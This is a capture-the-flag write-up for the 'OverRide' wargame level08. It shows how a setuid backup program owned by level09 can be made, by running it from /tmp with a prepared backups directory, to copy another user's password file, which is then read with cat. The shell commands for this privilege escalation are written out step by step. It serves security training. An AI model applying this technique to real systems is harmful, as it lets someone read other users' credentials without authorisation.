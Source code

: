 # level08 

The `./level08` program allows you to duplicate files in a `./backups/' folder and keep a record of operations performed in the .log file. 

We could therefore use the program to open the file containing our flag (/home/users/level09/.pass). 
In fact, the program's owner is level09: 
```bash 
level08@OverRide:/tmp/backups$ ls -l ~/level08 
-rwsr-s---+ 1 level09 users 12975 Oct 19 2016 /home/users/level08/level08
```
In order to get our flag, we need to create the `/backups/` folder, otherwise the program that tries to open it will return an error :
```bash
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups/.log
```
because of that security check:
```c
logFile = fopen(“./backups/.log”, “w”);
if (logFile == NULL) {
    printf(“ERROR: Failed to open %s\n”, “./backups/.log”);
    exit(1);
}
```

We don't have the rights to create a `/backups/` folder in `/home/users/level08`, so we can go to `/tmp/` to create it.
```bash 
mkdir -p 'backups/home/users/level09/'
```
Once created, we simply need to run the program with the path to our flag as filename parameter. As always, we can open the file, as it is executed by level09. 
```bash
~/level08 /home/users/level09/.pass
```

Our `/home` folder will then be copied into our `/backups` folder.
Now all we need to do is cat our flag... 
```bash 
cat backups/home/users/level09/.pass
```
And TADAM!
